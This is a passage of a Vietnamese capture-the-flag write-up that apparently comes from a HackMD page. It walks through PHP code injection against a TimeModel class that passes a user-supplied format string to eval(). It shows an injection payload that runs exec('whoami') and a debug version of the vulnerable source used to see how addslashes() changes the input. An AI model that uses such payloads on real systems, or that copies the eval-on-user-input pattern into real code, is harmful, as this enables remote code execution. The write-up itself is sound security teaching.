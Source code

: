 Giả sử:

**$this->format="`"); echo(exec('whoami'));#`"**

Thì chuỗi truyền vào eval() sẽ là:
```php!
$time = date(""); echo(exec('whoami'));#'", strtotime ...
```
Như thế thì ta sẽ thực thi được dòng code mà mình muốn. Tuy nhiên là ...

![image](https://hackmd.io/_uploads/SJSGJ9iE6.png)

Khi thử nhập payload vào URL thì kết quả lại không như thế :thinking_face: . Để tìm hiểu vấn đề gì xảy ra ta sẽ thử chỉnh source của chương trình để 
- Xem input của ta đã bị biến đổi như nào?
- Xem chuỗi được truyền cho eval chính xác là gì?
- Nếu câu eval bị lỗi thì in lỗi ra màn hình

Source code sau khi chỉnh lại để debug sẽ trông như sau:

```php=
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        #1. echo format sau khi addslashes
        echo('format after addslashes(): '.$this->format);
        echo('<br>');

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        #eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');

        #2. echo câu lệnh hoàn chỉnh trước khi truyền cho eval()
        echo ('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        echo('<br>');

        #3. set error handler và dùng try catch để in lỗi nếu lệnh eval() không thực thi được
        set_error_handler(function($_errno, $errstr) {
            // Convert notice, warning, etc. to error.
            throw new Error($errstr);
        });

        try {
            eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        } catch (Throwable $e) {
            echo 'Caught exception: ',  $e->getMessage(), "\n";
        }
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
